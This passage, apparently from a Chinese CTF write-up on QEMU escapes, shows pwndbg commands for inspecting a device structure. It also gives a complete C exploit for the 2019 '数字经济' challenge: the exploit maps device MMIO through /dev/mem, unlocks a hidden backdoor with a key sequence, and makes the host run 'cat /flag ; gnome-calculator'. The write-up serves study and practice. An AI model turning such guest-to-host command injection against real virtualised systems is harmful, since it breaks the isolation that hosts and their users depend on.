 直接使用HitbState即可：

```c
pwndbg> p *((HitbState *)(0x555558757fe0))
```

如果打印结果太长而只想查看结构体中的部分成员可以使用如下方式：

```c
pwndbg> set $a = *((HitbState *)(0x555558757fe0))
pwndbg> p /x $a.dma 
$20 = {
  src = 0x41000, 
  dst = 0x20ed478, 
  cnt = 0x8, 
  cmd = 0x3
}
```

## 2019 数字经济 qemu逃逸

> 虽然无符号，但就是个后门，的确比较简单，没调一遍过

- [从0到1的虚拟机逃逸三部曲](https://xz.aliyun.com/t/7345)

```c
#include <stdint.h>
#include <fcntl.h>
#include <sys/mman.h>

void * mmio;

void mmio_write(uint64_t addr, uint64_t value){
    *(uint64_t *)(mmio + addr) = value;
}

int main(){
    mmio = mmap(0,0x1000000,PROT_READ | PROT_WRITE, MAP_SHARED, open("/dev/mem",2),0xfb000000);

    // wwssadadBABA: 001123235454
    mmio_write(0x000000,0); mmio_write(0x010000,0); mmio_write(0x120000,0); mmio_write(0x130000,0);
    mmio_write(0x240000,0); mmio_write(0x350000,0); mmio_write(0x260000,0); mmio_write(0x370000,0);
    mmio_write(0x580000,0); mmio_write(0x490000,0); mmio_write(0x5a0000,0); mmio_write(0x4b0000,0);

    // write command
    char cmd[0x20] = "cat /flag ; gnome-calculator ;";
    mmio_write(0x600000,*(uint64_t *)(&cmd[0x00])); mmio_write(0x600008,*(uint64_t *)(&cmd[0x08]));
    mmio_write(0x600010,*(uint64_t *)(&cmd[0x10])); mmio_write(0x600018,*(uint64_t *)(&cmd[0x18]));

    // trigger backdoor
    return *(int *)mmio;
}
```

## 2021 HWS FastCP
